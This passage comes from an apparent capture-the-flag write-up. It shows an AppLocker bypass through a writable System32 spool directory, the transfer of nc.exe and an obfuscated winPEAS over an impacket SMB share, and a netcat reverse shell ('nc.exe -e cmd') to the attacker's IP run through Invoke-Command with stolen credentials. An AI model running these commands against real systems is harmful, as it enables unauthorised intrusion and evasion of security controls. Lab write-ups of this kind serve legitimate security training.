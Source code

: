 <br />
<img src="{{ site.img_path }}/control_writeup/Control_60.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

In order to get my **Reverse Shell** I'm going to resort to the list of directories available in the **[api0cradle Github](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md){:target="_blank"}** repository, to **bypass AppLocker**. In those directories I can upload the `nc.exe` binary and run it without restrictions, so once I do that I can already use a **Script Block** to succeed in catching the incoming **Reverse Shell** with `nc` on port **443**. I can now access the contents of the first flag and start a new stage of enumeration of the system but with the new compromised account, as I can't find much I'm going to automate the search with **[WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS){:target="_blank"}**. I will start a local **SMB server** to transfer `winPEAS.exe` (**obfuscated** version), but this time with credentials to avoid inconveniences when loading the binary on the target machine.

> **Attacker Machine**:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
copy \\10.10.14.5\smbFolder\nc.exe C:\Windows\System32\spool\drivers\color\nc.exe

Invoke-Command -ComputerName localhost -Cred $SecCredential { C:\Windows\System32\spool\drivers\color\nc.exe -e cmd 10.10.14.5 443 }

whoami
hostname
ipconfig

whoami /priv
whoami /all
net user hector

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ProductName
# ProductName    REG_SZ    Windows Server 2019 Standard
```

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/winPEASx64_ofs.exe .
mv winPEASx64_ofs.exe winPEAS.exe
impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
copy \\10.10.14.5\smbFolder\winPEAS.exe .\winPEAS.exe
# :(
```

> **Attacker Machine**:
